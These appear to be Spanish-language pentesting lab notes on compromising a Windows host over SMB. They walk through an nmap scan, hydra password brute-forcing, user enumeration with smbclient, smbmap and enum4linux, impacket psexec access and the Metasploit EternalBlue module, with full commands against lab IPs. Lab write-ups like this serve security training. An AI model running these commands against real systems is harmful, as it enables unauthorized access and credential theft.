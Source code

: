 Primero realizamos un escaneo del puerto 445
```
nmap -sV -sC -p 445 10.2.23.39
```
![[Pasted image 20240425080225.png]]

Ahora probaremos a descubrir las contraseñas de los usuarios con hydra
```
hydra -l administrator -P /usr/share/wordlists/metasploit/unix_passwords.txt smb
```
![[Pasted image 20240425080651.png]]

```
hydra -l vagrant -P /usr/share/wordlists/metasploit/unix_passwords.txt 10.2.23.39 smb
```
![[Pasted image 20240425080749.png]]

Ahora probaremos a enumerar los usuarios del sistema con las siguiente herramientas
```
smbclient -L 10.2.23.39 -U vagrant
```
![[Pasted image 20240425081337.png]]

```
smbmap -u vagrant -p vagrant -H 10.2.23.39
```
![[Pasted image 20240425081407.png]]

```
enum4linux -u vagrant -p vagrant -U 10.2.23.39
```
![[Pasted image 20240425081744.png]]
![[Pasted image 20240425081817.png]]

Otra forma para enumerar usuarios de forma autimatica como en enum4linux es utilizar el siguiente modulo de metasploit
`scanner/smb/smb_enumusers`
![[Pasted image 20240425082422.png]]
![[Pasted image 20240425082501.png]]


Ahora utilizaremos la herramienta `psexec`que nos permite autenticarnos de forma remota a traes del servicio SMB
```
locate psexec.py
```
![[Pasted image 20240425082657.png]]


Copiamos el ejecutable en nuestra carpeta
```
cp /usr/share/doc/python3-impacket/examples/psexec.py
```
![[Pasted image 20240425082937.png]]

Damos permisos para poder ejecutar el archivo
```
chmod +x psexec.py
```
![[Pasted image 20240425083047.png]]

Ahora utilizamos la herramienta para obtener acceso al sistema
```
python3 psexec.py Administrator@10.0.31.252
```
![[Pasted image 20240425083426.png]]

Esta misma herramienta también la tenemos disponible en un modulo de metasploit
`exploit/windows/smb/psexec`
![[Pasted image 20240425083752.png]]

Lo configuramos
![[Pasted image 20240425084419.png]]
![[Pasted image 20240425084523.png]]
![[Pasted image 20240425084542.png]]

------
Otra forma de poder acceder sabiendo que la maquina victima es windows server 2012 es utilizar la vulnerabilidad eternalblue
`exploit/windows/smb/ms17_010_eternalblue`
![[Pasted image 20240425084754.png]]
![[Pasted image 20240425085004.png]]

Y como podemos ver hemos obtenido acceso con los privilegios mas altos
![[Pasted image 20240425085134.png]]